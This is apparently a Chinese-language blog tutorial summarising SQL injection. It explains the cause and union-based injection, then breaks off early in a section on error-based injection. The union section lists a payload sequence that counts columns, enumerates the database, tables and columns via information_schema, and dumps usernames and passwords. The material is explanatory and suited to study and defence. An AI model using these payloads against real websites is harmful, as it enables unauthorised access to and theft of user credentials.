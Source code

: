 ```yaml
---
layout: mypost
title: SQL注入总结
categories: [Web]
extMath: true
---
```


# SQL注入总结

### 原理

SQL注入的根本原因在于应用程序将用户输入的数据“拼接”到了SQL查询语句中，并把这些输入当作了SQL代码的一部分来执行。

### 分类

1. 联合注入
    
    union注入
    使用`UNION`操作符将一个恶意的查询结果附加到正常的查询结果后面，一次性地将敏感数据“带”出来，显示在页面上。
    
    注入攻击流程：
    
    ```java
    #发现列数量
    1' ORDER BY 1-- //依次递增直到发生异常，前一列就是目标（3报错目标就是2），假设这里是2
    
    #判断回显列
    1' union select 1,2 -- //这里假设两个都回显
    
    #查当前数据库名
    1' union select null,database() -- //假设数据库叫DB
    
    #查表名
    1' UNION SELECT null, table_name FROM information_schema.tables WHERE table_schema = 'DB' -- 
    //假设目标表名叫user
    
    #查目标列名
    1' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name = 'user' AND table_schema = 'DB' -- 
    //假设目标列名为username，password
    
    #查数据
    1' UNION SELECT username, password FROM DB.user -- 
    ```
    
2. 报错注入
    
    利用数据库的出错信息来获取敏感数据。攻击者构造非法的SQL，让数据库返回的错误信息中包含他想要的数据。
    
    报错函数：ExtractValue，updatexml，floor()语句
    
    1. ExtractValue
        
        工作原理：从第一个参数（XML片段）中，使用第二个参数（XPath路径）来查询具体的值。
        